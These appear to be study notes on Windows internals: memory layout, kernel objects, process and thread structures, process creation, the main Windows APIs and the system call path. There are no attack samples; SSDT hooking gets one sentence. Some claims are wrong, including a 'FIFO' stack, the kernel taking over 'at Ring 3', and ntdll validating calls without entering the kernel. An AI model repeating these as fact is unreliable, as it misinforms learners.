User-Mode Memory Space: _Location: The user-mode memory occupies the lower half of the virtual address space. This is typically from0x00000000'00000000to0x00007fff'ffffffffon a 64-bit system. _Isolation: Each process has its own unique, private user-mode address space. The memory manager uses page tables to map the virtual addresses of a process to physical frames in RAM. *Protection: The Memory Management Unit (MMU) is configured to prevent a user-mode process from accessing any address in the kernel-mode region.
The Memory Management Unit (MMU) is the hardware subsystem of the CPU responsible for:
- Translating virtual addresses into physical addresses
- Enforcing memory protection and access rights
- Managing caching and paging mechanisms used by the operating system.
All under the supervision of the Windows kernel’s Memory Manager component.
Kernel-Mode Memory Space:Location: The kernel-mode memory space occupies the upper half of the virtual address space. This typically extends from0xFFFF8000'00000000to0xFFFFFFFF'FFFFFFFF.Shared: Kernel-mode virtual address space is shared by all processes. No matter which user-mode process is currently running, the kernel's code, data, and device drivers are always mapped into it's virtual address space at the same logical location.Protected: Even though this address space is shared, it is not accessible to user-mode code. The CPU's ring-based protection model ensures that only code running in kernel mode (ring 0) can access these addresses. User-mode code (ring 3) is explicitly denied access.
Every process has a set of page tables that map its virtual address space to physical memory. Importantly, these page tables are stored in kernel-mode memory. While the user-mode entries in these page tables are unique, the kernel-mode addresses are the same for all processes. When a new process is created, its page tables are initialized with a copy of the kernel's page table entries, ensuring the kernel is always mapped.
Current x64 CPUs only implement a subset of the total 64-bits for virtual memory addresses (typically 48 or 57 bits). For a 48-bit implementation, the user-mode addresses are canonical addresses where the 47th bit is 0, so all bits from 48-63 are also 0. Kernel-mode addresses are canonical addresses where the 47th bit is 1, so all bits from 48 to 63 are also 1.
The space between user-mode and kernel-mode memory regions is a non-canonical address space. This space is intentionally left empty and any attempt to access it triggers an exception, typically resulting in process termination.
The User Memory Space
Every application is different, but they are basically using memory in the following forms:
Private Allocations: Occur when an application requests a memory block using theVirtualAllocWin32 API. Allocates whole pages and nothing smaller.Heap Allocations: Allocated using a runtime library function such asmallocor by calling a system heap API such asHeapAlloc. Allocates multiple, variable-sized blocks as required for ad-hoc memory needs.- An application may implement its own heaps by directly allocating private blocks using
VirtualAlloc.
- An application may implement its own heaps by directly allocating private blocks using
Stack Allocations: FIFO memory allocations. Generally contains function parameters, the return address, the base stack address (for previous stack frames), and local variables.- Automatically allocated by the system for every thread while it's being created.
Executables: The mapped executable's location in memory.Mapped Views(Sections): Section Objects- Used to share memory between two or more programs.
Memory Management APIs
The Windows Virtual Memory Manager is accessible to application programs using a set of Win32 APIs that can directly allocate and free memory blocks in user-mode address space.
Some of the most used Win32 low-level memory management APIs are:
VirtualAlloc/VirtualAllocEx: Used to allocate private memory blocks within a process's user-mode address space.- The size of the allocation must be a multiple of the system's page size (typically
4KBor larger). - Can be used to either reserve a range of virtual addresses or to commit that range to physical storage.
- The
Exvariant allows a privileged process to operate on the address space of another process.
- The size of the allocation must be a multiple of the system's page size (typically
VirtualProtect/VirtualProtectEx: Sets a memory region's protection attributes (RWX). Modern processes support aNo-Execute(NX) bit, which the OS uses to prevent the execution of code from the.datasection.- The
Exvariant allows a process to modify the permissions of another process's memory space.
- The
- Cross-Process Memory Access: Windows provides a set of APIs for privileged processes to read or write to the address space of another process.
ReadProcessMemoryWriteProcessMemory
- Section Object APIs:
CreateFileMapping: Creates a section object, which can be pagefile or file backed for shared memory.MapViewOfFile/MapViewOfFileEx: Allows you to take a section object and map it into the address space the calling process.UnmapViewOfFile: Unmaps a previously mapped view, freeing up the virtual address range.
Object Handle
The Object Manager is a windows kernel component responsible for creating, managing, naming, referencing, and deleting all kernel objects (such as sections, file and device objects, synchronization objects, processes and threads) in a centralized location. An Object Handle is a process specific identifier used by user-mode applications to reference objects.
When an application requests a new object (i.e., creating a new thread) the Object Manager returns a handle, which is an index into the process's private handle table. Each entry in the handle table contains a pointer to the actual underlying kernel object and an associated access mask, which defines the operations the process is able to perform on the object with that specific handle (RWX).
Objects themselves are data structures store in the non-paged pool of kernel memory. Every kernel object has:
- a standardized header that contains basic properties, including:
_ the reference count
_ the handle count
An object is only deleted when its reference count and handle count both drop to zero.
Kernel programs can directly access kernel objects using pointers, but user-mode applications must always use handles.

Diagram of
Process Handle TableandObject Manager Objects
Named Objects
Some kernel objects can be named, providing a way to uniquely identify them across a system. For instance, when creating a mutex object, an app can assign it a name, If another app attempts to create a mutex with the same name, the kernel will locate the existing object instead of creating a new one, ensuring both processes are referencing the same object.
Named Objects are arranged in virtual memory as hierarchical directories, but the Win32 API restricts user-mode applications' access to these directories.
Some of the most interesting directories are:
-
\BaseNameObjects: Where all conventional Win32 named objects, such as mutexes, are stored. When applications need to synchronize their actions or share data, they create or open named objects in this directory. -
\Devices: A logical representation of all active system devices, whether they are physical (like a hard drive) or logical (like a network card or a console session) -
Global(prev.Global??): The symbolic link directory. Critical for how user-mode applications access devices and other named objects. The symbolic link serves as a high-level, human readable alias for a kernel object's real name.
Some kernel objects, (like threads) are unnamed and can only be identified by their handles or kernel object pointers.
Processes and Threads
A Process is many things, but predominantly it is an isolated memory address space that can be used for running a program. These address spaces are created for each program in order to make sure they run in their own address space. In order to run a program, a process must have at least one thread.
A process also represents a running application, and is a protected, isolated container. It is given its own isolated virtual address space that is mapped to a specific executable image. Essentially, it is a resource container, owning resources such as handles, files, synchronization objects, and thread. It does nothing, it is simply a container.
A Thread is a primitive execution unit. It is a data structure that has acontext data structure, which tells the system the state of the processor when the thread last ran, combined with one or two memory blocks that are used for stack space. The physical processor switches between multiple virtual processes, and always starts execution from the threads current context information using the threads stack.
The thread does work within a process and therefore a process needs at least one, but can have multiple. All threads within a single process share a virtual address space, but each thread has its own CONTEXT, including its own stack and CPU registers.
Context Switching is the mechanism by which the Windows Scheduler interrupts a running thread and saves its state so that another thread can run. This happens very rapidly to create the illusion of concurrency/parallelism.
The following steps are performed:
- Save the State: The CPU's registers, the stack, and the instruction pointer of the running process are saved within the Threa's
CONTEXTblock. - Restore the State: The saved state of another thread, which the scheduler has chosen to run next, is loaded into the CPU's registers.
- Resume Execution: The new thread begins execution at the saved instruction pointer (where it left off previously).
Context switching happens frequently and sometimes a thread will relinquish control voluntarily. For instance, when a program calls the GetMessage Win32 API, GetMessage will access a message queue and extract the next event to determine if the user has generated any new input events. If there aren't any new events, GetMessage enters a waiting state and doesn't return until a new input event comes in. When GetMessage enters a waiting state, the CPU will switch context.
Context switching also happens by default due to preemptive scheduling. Threads are given a limited amount of time to execute before they are interrupted. Every thread is assigned a quantum, which is the maximum amount of time a thread is allowed to run continuously. A low-level hardware timer is used to monitor how long the thread has been running. Once the quantum has expired, the thread is temporarily interrupted to allow other threads to execute. If no other threads need to execute, the interrupted thread immediately resumes execution.
A Low-Level Look at Process Objects
A developer can reference a process by its name, its PID or its handle. Ultimately, the handle is translated by the owning process's Process Handle Table into a pointer value for the referenced process's kernel object. This object, known as an _EPROCESS object, takes on the following form:
typedef struct _EPROCESS {
struct _KPROCESS Pcb;
struct _EX_PUSH_LOCK ProcessLock;
VOID* UniqueProcessId;
struct _LIST_ENTRY ActiveProcessLinks;
union _LARGE_INTEGER CreateTime;
struct _LIST_ENTRY SessionProcessLinks;
struct _PEB* Peb;
struct _HANDLE_TABLE* ObjectTable;
struct _FILE_OBJECT* ImageFilePointer;
VOID* DebugPort;
UCHAR ImageFileName[15];
struct _LIST_ENTRY ThreadListHead;
volatile ULONG ActiveThreads;
union _LARGE_INTEGER ReadOperationCount;
union _LARGE_INTEGER WriteOperationCount;
union _LARGE_INTEGER OtherOperationCount;
struct _RTL_AVL_TREE VadRoot;
struct _PS_PROTECTION Protection;
union _PROCESS_EXECUTION Execution;
} EPROCESS, *PEPROCESS;
This is a truncated version of the object. Full object details can be found here: Vergilus Project: _EPROCESS Object Windows 11 25H2
Here is a breakdown of what's happening:
_KPROCESS Pcb: The Kernel Process Block, which is responsible for the scheduler related portion of the process. It gives the Windows Dispatcher the information it needs to know which threads can run and under what conditions. This includes:- CPU‑affinity mask (which cores the process may run on)
- Quantum (time‑slice) value for the process’s threads
- Links that place the process’s threads on the per‑CPU ready queues
_EX_PUSH_LOCK ProcessLock: A synchronization object used to manage access to the_EPROCESSobject.VOID* UniqueProcessId: The PID value_LIST_ENTRY ActiveProcessLinks: Links the current process into the system wide process-list, which keeps track of all live (non-terminated) processes in a doubly-linked list._LARGE_INTEGER CreateTime: The time the process was created._LIST_ENTRY SessionProcessLinks: Links the current process into the logon-session wide process-list, which keeps track of all live (non-terminated) processes spawned within the same logon-session in a doubly-linked list._PEB* Peb: A pointer to a user-mode data structure, which contains data about environment variables, loaded modules, command-line arguments, and other usefule information that the application can access directly._HANDLE_TABLE* ObjectTable: A pointer to the process's Process Handle Table.VOID* DebugPort: A pointer used to track whether a process is being debugged, and if so which kernel debugging object it is attached to._FILE_OBJECT* ImageFilePointer: A pointer to the kernel FILE_OBJECT for the executable image.UCHAR ImageFileName[15]: The executable's filename._LIST_ENTRY ThreadListHead: The head of the linked list containing all_ETHREADobjects belonging to this process.volatile ULONG ActiveThreads: The total number of running threads._LARGE_INTEGER [...]OperationCount: The total number of (read/write/other) I/O operations._RTL_AVL_TREE VadRoot: The root of the VAD Tree._PS_PROTECTION Protection: The protection level of the process (more on this later)_PROCESS_EXECUTION Execution: The execution-state hub of_EPROCESSthat informs the kernel whether the process may run, how long it has run, whether it is currently frozen, and whether special execution‑related attributes (debugged, protected, etc.) apply.
In reality, the _EPROCESS object is much larger, but this truncated version covers the details that are most important to us currently.
A Low-Level Look at Thread Objects
One such detail is the _LIST_ENTRY ThreadListHead attribute, which is the head of a circular doubly-linked list of _ETHREAD kernel objects belonging to the process. This object takes on the following form:
typedef struct _ETHREAD {
struct _KTHREAD Tcb;
union _LARGE_INTEGER CreateTime;
union {
struct _KSEMAPHORE KeyedWaitSemaphore;
struct _KSEMAPHORE AlpcWaitSemaphore;
};
VOID* Win32StartAddress;
struct _LIST_ENTRY ThreadListEntry;
struct _CONTEXT* SetContextState;
} ETHREAD, *PETHREAD;
Here is a breakdown of what's happening:
-
_KTHREAD Tcb: The Kernel Thread Block, which is a low-level scheduling block containing priority, scheduler information, and the saved register state. -
_LARGE_INTEGER CreateTime: The time the thread was created. -
_KSEMAPHORE [...]WaitSemaphore: Part of a Union for specialized waiting mechanisms (Keyed Events and Advanced Local Procedure Call Semaphores). -
VOID* Win32StartAddress: Address of the thread’s start routine as supplied by the creating process (e.g., the function passed toCreateThreador the entry point of a newly created process). -
_LIST_ENTRY ThreadListEntry: allows the thread object to be linked into various kernel‑maintained thread lists. -
_CONTEXT* SetContextState: Pointer to theCONTEXTstructure used to save/restore the thread's state during context switching (e.g., suspension, context switch, APC delivery)To see what is saved as part of
CONTEXT, take a look at the full object, here.
Synchronization Objects
Without a way to coordinate resource access amongst multiple threads, a system may be vulnerable to race conditions and data corruption. A Synchronization Object is a kernel object designed to help threads coordinate access to shared resources. There are 4 primary types:
Mutexes(Mutual Exclusions): A resource obtained to gain access to a shared resource, which can only be obtained by one thread at a time.- In practice, a thread will attempt to acquire the mutex for some shared resource. If it is already owned, the thread waits in a queue until the owning thread releases ownership.
Events: A type of synchronization object that can be set to either a signaled (True) state or a non-signaled (False) state.- In practice, a thread can wait on an event, which will cause it to pause until another thread sets the event to the signaled state.
Semaphores: A type of synchronization object that allows multiple threads to access a shared resource at a time. It maintains a counter which decrements when a thread acquires access to the resource and increments when a thread relinquishes access to the resource.- A semaphore with a maximum count of one is functionally the same as a mutex.
- Once the count is 0, a thread requesting the protected resource will enter a wait state until the semaphore count is >=1.
Critical Sections: A simplified, user-mode version of a mutex.- In practice, they are faster than a mutex because they do not require a switch to kernel-mode unless the resource is contested.
The Process Initialization Sequence
The creation of a new process involves a series of steps to set up its virtual address space and load the necessary code. It generally operates as follows:
- Create Address Space: Creates a new, fundamental, and isolated virtual address space for the new process. This is the first thing to happen after a process calls
CreateProcess. - Load
NTDLL.DLL:CreateProcessmapsNTDLL.DLL, the operating system's core library, into the newly created address space, along with the main executable (.exe) file. - Create Primary Thread:
CreateProcesscreates the process's first thread and allocates stack space for it. - Execute
LdprInitialize: When the primary thread begins execution, it calls theLdrpInitializefromNTDLL.DLL.LDRPInitialize: (LoaDeR Private) Used to prepare a program to run by loading and initializing various components.
- Load Dependencies:
LdrpInitializerecursively traverses the import tables of the primary executable and its loaded DLLs, then maps all required DLLs into the process's virtual address space. - Call Initialization Routines:Control is passed to
LdrpRunInitializeRoutinesLdrpRunInitializeRoutines: initializes all static DLLs, which are currently loaded into the address space.- The initialization process consists of calling each DLL's entry point with the
DLL_PROCESS_ATTACHconstant set forDWORD fdwReason(more on this inMalware Essentials)
- Transfer to Executable's Entry Point: Once all the DLLs are initialized,
LdrpInitializecalls the thread's initialization process, which is theBaseProcessorStartfunction fromkernel32.dllkernel32.dllcalls the primary executable'sWinMainentry point, completing the initialization process.
Application Programming Interfaces
An Application Programming Interface (API) is a set of functions that the operating system makes available to application programs for communicating with the operating system. Here, we will review 3 APIs that are crucial to facilitating normal operations on modern Windows devices, Win32, DirectX, and WinRt.
The Win32 API
The Win32 API is the high-level, documented, and officially supported API that most application programmers use at some level. It is a very large set of functions that make up the official, low-level programming interface for Windows applications. It provides access to the features of Windows, including memory management, process and thread management, and GUI operations.
Typically, Win32 is not used directly by programmers anymore, as simpler, higher-level interfaces have been developed that expose most of the features offered by the Win32 API, such as:
Microsoft Foundation Classes(Legacy)(MFC): An object oriented wrapper over theWin32API implemented in C++. It simplifies GUI and message handling for native apps..NET Framework: A managed framework with access to Windows Functionality viaP/InvokeorCOM Interop. Uses theSystemclass for accessing operating system services.Systemis an interface into theWin32API.
Applications that use Win32 are generally portable across different versions of Windows. We have reviewed a few functions in this API, including CreateProcess, WriteProcessMemory, and VirtualAlloc. Others include:
LoadLibrary: Maps a library into the virtual memory space of a process.GetProcAddress: Looks up the virtual address of a particular function within a loaded library/module.GetModuleHandle: retrieves a handle (HMODULE) to a module that is already loaded in the calling process’s address space.
Most higher-level interfaces an application will employ use Win32 for communicating with the Operating System. Some applications will use the low-level Native API, but this is rare.
There are thousands of APIs within the Core Win32 API, divided into many categories:
| Library/Subsystem | Approx. # of Functions |
|---|---|
kernel32.dll: system core, memory, threads, files | ~700-800 |
user32.dll: windows, messages, UI controls | ~500-600 |
gdi32.dll: graphics | ~400-500 |
advapi32.dll: security, registry, services | ~300-400 |
comdlg32.dll: Common Dialogs | ~100-200 |
shell32.dll: shell, file operations | ~300-400 |
ole32.dll: COM runtime helpers, Marshaling | ~200-300 |
We will focus on 3 of these: User, Kernel, and GDI.
Kernel APIs
Kernel APIs are implemented in the kernel32.dll module and they include all non-GUI related services, such as file I/O, memory management, object management, process and thread management, etc.
Kernel APIs are used for creating and working with Kernel-level objects such as files, synchronization objects, etc. which are implemented in the systems object manager. kernel32.dll typically calls low-level Native APIs from ntdll.dll to implement various services, such as:
- File Management:
CreateFile() - Process Management:
CreateProcess() - Memory Management:
VirtualAllocEx() - Security & Access Control:
GetTokenInformation() - Miscellaneous:
GetEnvironmentVariable()
GDI APIs
GDI APIs are implemented in the gdi32.dll module. They include low-level 2D graphics services such as:
- Drawing a line:
LineTo() - Displaying a Bitmap:
CreateBitmap() - Creates/Ends Print Jobs:
StartDoc()/EndDoc() - Device Contexts:
CreateDC() - Brushes:
CreateSolidBrush() - Pens:
CreatePen()
The objects are managed by win32k.sys object managers, not the main kernel object manager.
win32k.sys is a critical system driver responsible for managing core graphical and user interface functions for legacy programs. It can generally be found at: C:\Windows\System32\drivers\win32k.sys
It is part of a larger family of win32k API's which made the function of the win32k.sys driver modular in Windows 10+. Other members of this family include:
win32kbase.sys: The base driver where all GDI requests are sent to. Capable of handling basic window management and input tasks.
win32kfull.sys: The full implementation of the GDI code base. Handles tasks that cannot be completed by win32kbase.sys alone, such as font rasterization, print rendering, and complex drawing.
They can be found at C:\Windows\System32\win32kbase.sys and C:\Windows\System32\win32kfull.sys respectively.
User APIs
User APIs are implemented in the user32.dll module and include all higher-level GUI-related services such as:
- Window Management:
CreateWindow() - Menus:
CreatePopupMenu() - Dialog Boxes:
CreateDialogParam() - UI Controls:
SetScrollInfo()
On modern systems, while the Win32k family is used to handle basic 2D-rendering tasks, other APIs have taken on much of its responsibility. For instance, the DirectX API is used for more graphically intensive tasks.
The API Call Sequence
When a user-mode application makes a Win32 API call, a sequence of events occur to get the request to the kernel:
- An application module makes a call to a function in a
Win32DLL (i.e.,kernel32.dll,user32.dll,gdi32.dll) - The Win32 DLL then calls the corresponding function in the Native API interface,
ntdll.dll ntdll.dlluses a low-level instruction, such as asyscallto transition from user-mode to kernel-mode- The kernel then runs a service dispatch routine that looks up the requested function in the
ntoskrnl.exeorwin32k.sysservice dispatch table and executes the corresponding kernel-mode code.

Diagram of
Win32APIs relative to the Windows Kernel,ntoskrnl.exe
The DirectX API
The DirectX API is a set of high-performance, low-level APIs specifically designed for gaming and multimedia applications. It provides tools for high-fidelity graphics and audio rendering. DirectX is a specialized API suite that is distinct from the general-purpose Win32 API (specifically from user32.dll and gdi32.dll) as it provides a more direct path for applications to communicate with the GPU and sound hardware and abstracts the complexities of different hardware architectures, allowing developers to write code that works across a wide range of video and sound cards.
Some of the key APIs within DirectX are:
Direct3D: The API used for rendering 3D graphics.Direct3Dprovides a low-level interface to the graphics hardware, giving developers explicit control over the GPU pipeline for maximum performance.- Key Concepts
Device Cteation: Functions likeD3D12CreateDeviceare used to initialize the graphics device and get a handle to the GPU, setting the stage for all subsequent rendering operations.Resource Management: Direct3D manages various resources, such as vertex buffers (to store 3D model geometry) and textures (to apply images to surfaces).- Ex:
ID3D12GraphicsCommandList::IASetVertexBuffers()is a function used to bind geometry data to the rendering pipeline
- Ex:
Drawing Commands: The core of Direct3D is its ability to issue drawing commands.
Direct3Dcan be found atC:\Windows\System32\d3d12.dll(previouslyd3d11.dllandd3d9.dll)
Direct 2D: The API for high-performance, hardware-accelerated 2D graphics.Direct2Dis an evolution ofGDI, designed for modern applications that need to render high-quality, scalable 2D content efficiently.- Key Concepts
Factory Creation: The first step in usingDirect2Dis to create a factory, using functions likeD2D1CreateFactory. Thefactoryis the starting point for creating all otherDirect2Dresources.Render Target: TheID2D1HwndRenderTargetinterface represents the surface you want do draw on, such as a window. You use a function likeID2D1Factory::CreateHwndRenderTarget()to create it.Drawing Operations: Once a render target is created, yo ucan use its methods to draw.ID2D1HwndRenderTarget::DrawRectange()is a single example for rendering a rectangle.
Direct2Dcan be found atC:\Windows\System32\d2d1.dll
DirectWrite: The API for High-Quality test rendering, designed to work seamlessly with Direct3D and Direct2D.DirectWriteprovides advanced features for text layout, font management, and glyph rendering.Key ConceptsText Formatting:DirectWriteallows you to define the format of text. A function likeIDWriteTextFormat()lets you specify the font, size, and style.Text Layout: To arrange text on the screen, you use a text layout object. TheIDWriteTextLayoutinterface allows you to specify a text string and a format, and it handles the layout. This is crucial for handling complex scripts, wrapping text, and aligning content.Rendering: WhileDirectWritehandles the layout, the actual rendering is often done withinDirect2D. You pass the text layout to aDirect2Ddrawing function to render it to the screen with hardware acceleration.
Direct3Dcan be found atC:\Windows\System32\dwrite.dll
The API Call Sequence
WHen a user-mode application makes a DirectX API call, a sequence of events occurs to get the request to the kernel and eventually, the GPU:
- A user-mode app makes a call to a
DirectXAPI (d3d12.dll,d2d1.dll,dwrite.dll, etc.) - The
DirectXAPI prepares the necessary data and commands in user mode. It then makes a system call to the kernel - The system call enters the kernel and is handled by the
DirectXGraphics Kernel Subsystemdxgkrnl.sysntoskrnl.exereceives thesyscall, looks up the service number in it's dispatch table, then immediately hands off the request todxgkrnl.sysdxgkrnl.syshandles all GP-related tasks, but will make its own direct function calls tontoskrnl.exefor foundational services, such as allocating memory in kernel space for GPU resources.
dxgkrnl.syshandles the core management tasks, such as scheduling GP work, allocating video memory (VRAM) and providing security and isolation.dxgkrnl.systhen passes the prepared commands to the hardware specific graphics driver (i.e.,nvlddmkm.sysfor nvidia). This driver is another kernel-mode component.- The hardware specific driver translates the commands into a format the GPU can understand and sends them directly to the GPU hardware.
The Windows Runtime (WinRT) API
Windows Runtime(WinRT) is the modern, class-based API set created to be the foundation of the Universal WIndows Platform (UWP). It is designed to provide a secure, modern and language agnostic way for developers to build applications for a variety of Windows devices and built on the principles of the Component Object Model (COM)
WinRT can be modeled by 4 layers:
- The Metadata Layer: Binary metadata files that serve as a blueprint, containing a complete description of all the
WinRTAPIs, including their classes, methods, and properties. - The Language Protection Layer: Enables the language agnostic nature of WinRT. A language's runtime (i.e.,
C++/WinRTLibraries) read the.winmdfiles and automatically generate "proxy" code, which translates the developers calls in their chosen language into low-level COM calls. - The WinRT Implementation Layer: Contains the actual executable code, which is provided by Windows itself and located in user-mode DLLs (i.e.,
Windows.Globalization.dll) - The Kernel Layer: When a
WinRTAPI call requires a privileged operation, theWinRTimplementation in user-mode makes a system call to the Windows kernel. The communication to the kernel is handled via the Native API interface (ntdll.dll)
A few examples of WinRT APIs include:
Windows.UI.Xaml.Controls.Button: Creates a button in a modern UI. Code is run byWindows.UI.XAML.dllWindows.Web.HTTP.HttpClient: Makes HTTP requests over the network. Code run byWindows.Web.Http.dllWindows.Devices.Geolocation.Geoloader: Used to get location data from a devices GPS or other sensors. Code run byWIndows.Devices.dll
The system file we have discussed, including the core DLLs and drivers, are generally located in C:\Windows\System32 on a standard Windows installation
The Native API
The Native API is the low-level interface to the Windows kernel. C:\Windows\System32\ntdll.dll is an interface for the API and C:\Windows\System32\ntoskrnl.exe is the actual implementation in kernel-mode. Most high-level Win32, DirectX, and WinRt APIs serve as documented wrappers around these Native API functions. APIs in the Native API always start with one of two prefixes: Nt or Zw.
The NT APIs (NtXxx)
Nt is short for New Technology. APIs with this prefix are located in ntdll.dll, a user-mode library. By default, user-mode applications are considered untrusted, so Nt functions perform extensive parameter validation before transitioning into the kernel. They check for valid memory addresses, proper data types, and sufficient permissions. This is a critical security measure to prevent a user-mode program from passing a malicious or invalid value that could cause a crash in the privileged kernel space. If an invalid call is made, the call will fail gracefully, returning an error code, not causing a system crash.
For example: A user-mode program calls NtCreateFile fro ntdll.dll.
- The function validates the path to the file, the permissions and other parameters.
- If the path is invalid the function returns an error, without ever entering the kernel.
- If the parameters are valid, the function prepares a
syscallto the kernel.
The ZW API (ZwXxx)
Zw is rumored to be named after Gary Zwicky, a former Microsoft Engineer. These functions are located and implemented within the kernel-mode file, ntoskrnl.exe. The Zw API is designed to be called by kernel-mode components, primarily device drivers. Zw functions are considered trusted. They assume that the caller has already validated the parameters. For performance reasons, they do not perform a second round of validation. A call from a kernel-mode driver with ain invalid pointer or corrupted data can lead to a severe error, often resulting in a Blue Screen of Death (BSOD).
For example: A device driver needs to vreate a file
- Since the kernel-mode code is trusted, the driver calls
ZwCreateFiledirectly. - If there is an error, it is handled ungracefully, likely resulting in BSOD.
- If the parameters are valid,
ZwCreateFileexecutes without issue, and allows access to the file from a given address.
The Link Between Nt and Zw
When a user-mode application calls an Nt function, a few things occur:
- The
Ntfunction performs its validation checks in user-mode. - It loads the system call number and parameters into the appropriate registers.
- It executes the system call instruction, which transfers control to the kernel.
- The kernel's System Service Dispather receives the system call and routes the request to the corresponding kernel-mode routine.
- The kernel-mode routine is, in many cases, the
Zwversion of the function. For example, asyscallforNtCreateFileis dispatched to the coreZwCreateFileroutine inntoskrnl.exe.
The System Calling Mechanism
A system call is the process by which a user-mode thread requests a service from the operating system kernel. The user-mode side prepares the request by setting up registers according to a specific calling convention. A special instruction (syscall or int 0x2e) then triggers a direct, privileged transition into kernel-mode.
The 64-bit System Call Process
- Loading the System Call Number: A number representing the specific service requested from the kernel is loaded into the
raxregister. - Passing the Parameters: The parameters for the system call are passed to the kernel using registers:
- 1st Parameter:
rcx - 2nd:
rdx - 3rd:
r8 - 4th:
r9 - Additional parameters are pushed onto the
stack
- 1st Parameter:
syscall: Once the registers are populated, thesyscallinstruction is executed.- Execution to Kernel Mode: The
syscallinstruction causes the CPU to trap into kernel mode at a pre-defined entry point. The kernel then uses the system call number inraxto lookup the correct handler function in the System Service Dispatch Table. 5) Execution and Return: The kernel-mode handler executes the requested service. Upon completion, the kernel restores the user-mode state and uses theretinstruction to return control to the user-mode application.
; 64-bit Intel Assembly
mov rax, 0x1A ; System Call number for `NtClose` is 0x1A
mov rcx, <Handle> ; First parameter (handle) is in `rcx`
syscall ; Execute the system call
ret ; Return from the function
The 32-bit System Call Process
- Loading the System Call Number: The system call number is saved to
eax. - Passing the Parameters: The parameters for the function are passed onto the stack. The caller is responsible for pushing the parameters reverse order (right to left).
int 0x2e: The system call instruction is called by generating a software interrupt, causing an immediate, privileged transition from the user-mode execution context into the kernel-mode interrupt handler.- Transition to Kernel Mode: When the
int 0x2einstruction is executed, the CPUs Interrupt Descriptor Table is used to find the corresponding kernel-mode interrupt handler for interrupt0x2e. The handler takes control, then uses the value ineaxto identify the requested service. The handler then reads the parameters from the user-mode stack. The requested kernel function is executed with the provided parameters. - Execution and Return: Once the operation is complete, the kernel restores the user-mode context and returns control to the application, often via a
retinstruction.
; 32-bit Intel Assembly
push eax ; save reister value
push [esp+8] ; Push the handle to the stack
mov eax, 0x12 ; System call number for NtClose is 0x12
int 0x2e ; execute the system call
pop eax ; restore the register
ret 4
Win32 API as a Wrapper
The user-facing Win32 AP wraps low-level calls. For instance, the CloseHandle function from kernel32.dll is implemented by making a call to ntdll.dll, which then executes the system call.
; Disassembly of CloseHandle in kernel32.dll
; CloseHandle(Handle hObject)
lea r11, [rip+<some_offset>] ; Get a pointer to the NtClose stub in nt.dll
jmp r11 ; Jump to the NtClose function
The KiSystemService() Function
KiSystemService is the single, privileged entry point into the Windows kernel for all user-mode system call requests. It is a highly optimized internal kernel function that is executed immediately after the syscall instruction is issued by the CPU. It is primarily used as the secure gatekeeper between user-mode and kernel-mode. When a syscall occurs, the CPU's privilege level is raised, and execution is transferred to KiSystemService, which will retrieve the system call number and parameters from the registers/stack, save the user execution context and set up the kernel context, and use the system call number to look up the execution function from KiServiceTable.
KiServiceTable
Ki stands for "kernel internal". KiServiceTable is an array of function pointers responsible for mapping a system call number to the memory address of the corresponding kernel function. This is also referred to as the SystemServiceDispatchTable.
The KiServiceTable is a acmomon target for malware and rootkids. By modifying a pointer in this table, an attacker can "hook" a system call, redirecting it to their own malicious code. This is referred to as System Service Dispatch Table Hooking (SSDT Hooking).
The System Call Dispatch Process
The System Call Dispatch Process can be broken into 10 steps:
- A user-mode application calls a function (i.e.,
NtClose), which requires interaction with kernel-mode components. Thentdll.dlllibrary handles this call. ntdll.dllplaces the system call number for the function (i.e.,0x1AforNtClose) into theraxregister and the function's other parameters into their respective registers/stack positions.- The
syscallinstruction is executed. - The CPU transitions to kernel-mode and begins executing the code for
KiSystemService. KiSystemServicereads the value fromrax.KiSystemServiceuses the value inrax (i.e.,0x1A) as an index into theKiServiceTable`.- The entry at
KiServiceTable[rax]contains a pointer to the appropriate function. For example,KiServiceTable[0x1A]contains a pointer toZwClose. KiSystemServicejumps to the memory address stored in that table entry, transferring execution to theZwClose. function.- The kernel function executes, performs the requested operation on kernel memory, and returns to
KiSystemService. KiSystemServicehandles the cleanup and returns control securely to the user-mode application.
The Amended Process Initialization Sequence
With this new information, we can add some additional information to the process initialization sequence we went over previously.
- User-Mode Initiation with
CreateProcess- The initialization sequence begins when a user-mode application calls a high-level
CreateProcessAPICreateProcessis a fundamental part of theWin32API, that is primarily responsible for validating a user's request to create a new process, gathering all of the necessary information (i.e., the executable path, command-line arguments, and environment variables) and preparing said information for Step 2
- The initialization sequence begins when a user-mode application calls a high-level
- The
ntdll.dllNative API BridgeCreateProcessmakes an internal, private call to a function within 'ntdll.dll', such asNtCreateUserProcess, which receives the prepared request and sets up the parameters and the system call number in the appropriate CPU registers.
- The
syscalland Kernel-Mode Transition- The
ntdll.dllfunction executes thesyscallinstruction, which crucially changes the CPU's privilege level. from user-mode (Ring 3) to kernel-mode (Ring 0) (More on Ring Levels Later). At Ring 3, the operating system's kernel takes over, and control is transferred to the system call dispatcher, typicallyKiSystemService.
- The
- Kernel Object Creation (
NtCreateProcessEx&NtCreateThreadEx)KiSystemServicelooks up the correct kernel function address in theKiServiceTableusing the system call number as an index.KiSystemServicedispatches the request to the core process creation routines, typicallyNtCreateProcessExandNtCreateThreadEx. The kernel's Object Manager creates a Process object and a Thread object, which are privileged data structures that reside in kernel-mode memory. These are the kernel's internal representation of the new process and its initial thread. The initial thread is created in a suspended state, to prevent the thread from executing any code until the kernel is ready.
- Creating the Process Handle
- After creating the kernel objects, the kernel creates a small unique integer value (the Handle), which is added to the new process's private Process Handle Table. The kernel also returns the handle to the original user-mode application, allowing it to interact with the new process in a controlled and secure manner.
- The Two-Phase User-Mode Loader
- Here, the kernel hands off execution to the user-mode code. The kernel sets the initial thread's instruction pointer to
LdrInitializeThunk, a function inntdll.dll, then resumes its executionLdrInitializeThunkis the process's first user-mode code to run, and it performs a two-phase loading and initialization process:- Dependency Resolution(LdrpInitialize): A deep, recursive traversal of the executable's import address table and all of its dependencies. The loader checks for required DLLs and if a DLL is not yet loaded, it calls the Memory Manager to map the DLL's image from disk into the process's virtual address space. The loader then recursively processes the new DLL's dependencies, ensuring the entire dependency tree is mapped.
- Initialization Routines (LdrpRunInitializeRoutines): After all dependencies are mapped, this phase focuses on initialization. The loader iterates through the newly added DLLs and for each DLL, it calls the
DllMainfunction with theDLL_PROCESS_ATTACHnotification set forfdwReason. This gives each DLL a chance to initialize its own internal state, allocate resources, and prepare for use before the main executable is run.
- Here, the kernel hands off execution to the user-mode code. The kernel sets the initial thread's instruction pointer to
- The Final Handoff to the Application
- Once the loading phases have completed,
LdrInitializeThunkmakes a final jump, transferring control to the application's designated entry point (typicallymainorWinMain). Here, the application's code begins to execute, and the process is fully initialized and ready to go.
- Once the loading phases have completed,
Executable Format
